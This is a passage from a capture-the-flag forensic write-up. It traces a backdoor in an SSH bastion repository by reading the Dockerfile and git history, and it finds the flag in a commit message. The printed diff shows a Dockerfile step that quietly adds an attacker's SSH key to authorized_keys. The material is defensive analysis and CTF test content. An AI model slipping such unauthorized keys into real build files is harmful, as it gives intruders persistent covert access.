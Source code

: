 #### Step 3: Examine the Dockerfile
Since we know the backdoor was in the SSH authorized_keys file, let's check the Dockerfile:

```bash
cat /home/ubuntu/bastion_repo_ctf/ssh-bastion-repo/Dockerfile
```

In the Dockerfile, we find the suspicious SSH key being added:

```dockerfile
RUN mkdir -p /home/ratchet/.ssh && \
    echo -e "\
ecdsa-sha2-nistp256 AAAAvZHODysGbxHo1wGtqbqi1Ffnr2li7j8ov/V26Nt4w/HR26mWOtT/APG1qBilJoVmCQChz/hCWuIWwzqqZNe1BQ== ratchet@infocube\n\
ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOSeOZtJmXS7zliVg5tEaEk9KvhIRn4S3FBjLuo1s0eUvHi6HkzuLTNXiphR8Lth/DWQNeC/A+meex8Y09RtZQA= hacker-U0stQ0VSVHtoMEx5X00wTGx5X1RIM3lfNHIzXzV0aUxsX2gzUjN9\
" > /home/ratchet/.ssh/authorized_keys
```

#### Step 4: Analyze the Git History
Now, let's check the commit history for the Dockerfile to see who added this backdoor:

```bash
cd /home/ubuntu/bastion_repo_ctf/ssh-bastion-repo
git log --all --pretty=oneline --abbrev-commit Dockerfile
```

Output:
```
434e557 merge suggested changes from colleague
a222654 update ssh keys SK-CERT{r09U3_3MPL0Y33_0r_5uPpLycH41n}
fe00ee7 upgrade base image
018ab72 harden user passwords
3f9744d bastion deployment. initial commit
```

The commit message for `a222654` looks suspicious and contains what appears to be our flag.

#### Step 5: Examine the Specific Commit
Let's look at the details of this commit:

```bash
git show a222654
```

Output:
```
commit a22265452b4b9e02dd3492165c953dd53d1ba393
Author: Ratcher Tailhorn <employee@infocude>
Date:   Fri Apr 18 23:30:01 2025 +0200
    update ssh keys SK-CERT{r09U3_3MPL0Y33_0r_5uPpLycH41n}
diff --git a/Dockerfile b/Dockerfile
index 8fc2b95..41b13b5 100644
--- a/Dockerfile
+++ b/Dockerfile
@@ -21,7 +21,8 @@ COPY sshd_config /etc/ssh/sshd_config
 
 RUN mkdir -p /home/ratchet/.ssh && \
     echo -e "\
-ecdsa-sha2-nistp256 AAAAvZHODysGbxHo1wGtqbqi1Ffnr2li7j8ov/V26Nt4w/HR26mWOtT/APG1qBilJoVmCQChz/hCWuIWwzqqZNe1BQ== ratchet@infocube\n
+ecdsa-sha2-nistp256 AAAAvZHODysGbxHo1wGtqbqi1Ffnr2li7j8ov/V26Nt4w/HR26mWOtT/APG1qBilJoVmCQChz/hCWuIWwzqqZNe1BQ== ratchet@infocube\n\
+ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOSeOZtJmXS7zliVg5tEaEk9KvhIRn4S3FBjLuo1s0eUvHi6HkzuLTNXiphR8Lth/DWQNeC/A+meex8Y09RtZQA= hacker-U0stQ0VSVHtoMEx5X00wTGx5X1RIM3lfNHIzXzV0aUxsX2gzUjN9\
 " > /home/ratchet/.ssh/authorized_keys
```

